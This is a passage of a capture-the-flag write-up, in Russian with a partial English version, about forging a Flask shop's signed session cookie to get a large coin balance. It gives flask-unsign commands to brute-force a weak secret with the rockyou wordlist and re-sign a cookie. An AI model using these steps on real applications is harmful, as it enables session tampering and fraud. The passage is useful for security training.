 ```
       
    if current_balance < product["price"]:
        return render_template("no_money.html", product=product)
       
    session["coins"] = current_balance - product["price"]
    session["products"].append(product)
```
3. Уязвимость: В приложении используется слабый секрет для подписи куки. Если вы сможете восстановить этот секрет, вы сможете изменить значения куки и повторно подписать их, что позволит вам несанкционированно вносить изменения.
4. Шаги атаки::
	Шаг 1: Установка: Установите необходимый инструмент flask-unsign.
	```
	pip3 install flask-unsign
	```
	Шаг 2: Брутфорс секрета: Используйте словарь для брутфорса секрета, используемого для подписи куки. Это выполняется следующей командой:
	```
	 python3 -m flask_unsign --wordlist rockyou.txt --unsign --cookie "session-cookie-here" --no-literal-eval
	```
	 Шаг 3: Изменение куки: После того, как секрет известен, вы можете создать новые куки с высоким значением монет (например, 199999999999999999999). Подпишите и примените эти куки обратно в своем браузере:
	 ```
	python3 -m flask_unsign --sign --cookie "{'coins':199999999999999999999}" --secret "flask_secret" --legacy
	```
	Финальный шаг: С измененныи куки вы теперь можете купить желаемый товар (например, флаг) благодаря завышенному балансу.

### Разбор на английском
This task involves exploiting a vulnerability in a web application that manages user balances through session cookies. The balance information is stored in a session object, which can be decoded and manipulated to gain unauthorized access. Here’s a breakdown of the process:
1. Session Cookies: The application stores the user’s coin balance and purchased products in session cookies, which can be represented as:
```
{'coins':0, 'products':[]}
```
2. Balance Management: The application checks the user’s current balance when attempting to purchase a product:
```
@app.route('/buy/<id>', methods=["GET"])
def buy(id):
    current_balance = session["coins"] 
       
    if current_balance < product["price"]:
        return render_template("no_money.html", product=product)
       
    session["coins"] = current_balance - product["price"]
    session["products"].append(product)
```
3. Vulnerability: The application has a weak secret used to sign the cookies. If you can recover this secret, you can modify cookie values and re-sign them, allowing for unauthorized modifications.
4. Attack Steps:
	Step 1: Installation: Install the necessary tool, flask-unsign, which is used for unsigning and signing Flask cookies.
	```
	pip3 install flask-unsign
	```
	Step 2: Brute Force the Secret: Use a wordlist to brute-force the secret used for signing the cookies. This is done with the following command: